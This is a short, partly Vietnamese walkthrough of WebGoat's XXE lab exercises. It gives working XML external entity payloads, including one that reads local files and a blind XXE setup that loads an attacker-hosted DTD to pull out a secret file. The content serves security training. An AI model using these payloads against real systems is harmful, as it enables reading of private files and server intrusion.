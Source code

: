 # (A4) XML External Entities (XXE)

## XXE

### 4. Let’s try

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY exploit SYSTEM "file:///">
]>
<comment>
	<text>&exploit;</text>
</comment>
```

### 7. Modern REST framework

Sửa lại header thành `Content-Type: applicaiton/xml` và dùng payload tương tự bài 4

### 11. Blind XXE assignment

Host file `meo.dtd` bằng Webwolf, phải có `encoding="UTF-8"` nếu không sẽ bị lỗi:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY secret SYSTEM "file:///home/woanmeo11/.webgoat-8.2.2//XXE/secret.txt"> 
```

Lấy link file `meo.dtd` từ Webwolf và craft payload gửi đến server:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY % meo SYSTEM "http://127.0.0.1:9090/files/woanmeo11/meo.dtd">
	%meo;
]>
<comment>
    <text>bruh &secret;</text>
</comment>
```

Sau đó tìm secret ở phần comment là xong.